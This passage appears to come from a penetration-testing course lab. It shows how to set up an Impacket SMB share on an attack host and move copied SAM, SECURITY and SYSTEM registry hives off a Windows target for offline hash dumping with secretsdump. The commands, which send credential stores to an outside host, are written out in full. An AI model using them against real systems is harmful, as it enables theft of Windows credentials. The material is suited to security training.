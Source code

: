 #### Creating a share with smbserver

To create the share, we simply run `smbserver.py -smb2support`, specify a name for the share (e.g., `CompData`), and point to the local directory on our attack host where the hive copies will be stored (e.g., `/home/ltnbob/Documents`). The `-smb2support` flag ensures compatibility with newer versions of SMB. If we do not include this flag, newer Windows systems may fail to connect to the share, as SMBv1 is disabled by default due to [numerous severe vulnerabilities](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=smbv1) and publicly available exploits.

```shell-session
Ovas420@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Once the share is running on our attack host, we can use the `move` command on the Windows target to transfer the hive copies to the share.
#### Moving hive copies to share

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

We can then confirm that our hive copies were successfully moved to the share by navigating to the shared directory on our attack host and using `ls` to list the files.
```shell-session
Ovas420@htb[/htb]$ ls

sam.save  security.save  system.save
```

## Dumping hashes with secretsdump

One particularly useful tool for dumping hashes offline is Impacket's `secretsdump`. Impacket is included in most modern penetration testing distributions. To check if it is installed on a Linux based system, we can use the `locate` command:

```shell-session
Ovas420@htb[/htb]$ locate secretsdump 
```
